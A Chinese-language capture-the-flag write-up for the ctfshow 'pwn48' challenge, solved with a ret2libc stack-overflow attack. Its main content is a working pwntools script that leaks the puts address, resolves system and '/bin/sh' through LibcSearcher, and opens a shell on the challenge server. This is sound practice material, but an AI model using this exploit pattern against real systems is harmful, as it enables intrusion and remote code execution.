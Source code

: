 ## ret2libc pwn48

### 题目

![image-20241120122714089](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120122714089.png)

这里发现stack没有进行保护并且这也是一个经典的ret2libc的一个方法

这里发现一个ctfshow的一个栈溢出

![image-20241120122650979](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120122650979.png)

而这个main文件中发现没有之前的with因此我们可以使用puts

这里可以编写exp：

```python
from LibcSearcher import LibcSearcher
from pwn import*


context.log_level="debug"
# io = process("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show" ,28134)
elf = ELF("/home/fofa/pwn")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = elf.sym['main']

payload = cyclic(111)+ p32(puts_plt)+p32(main)+p32(puts_got)
io.sendline(payload)
puts_addr = u32(io.recvuntil('\xf7')[-4:])
print(hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base= puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload = cyclic(0x6b+4) + p32(system) + p32(main) + p32(bin_sh)
io.sendline(payload)

io.interactive()
```



![image-20241120123048672](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241120123048672.png)

---

### 总结

这里发现一点如果你要调用题目的puts_addr的地址就可能要使用远程识别才可以本地的静态调试也是不行的 因此我们需要识别时需要一个远程连接才可以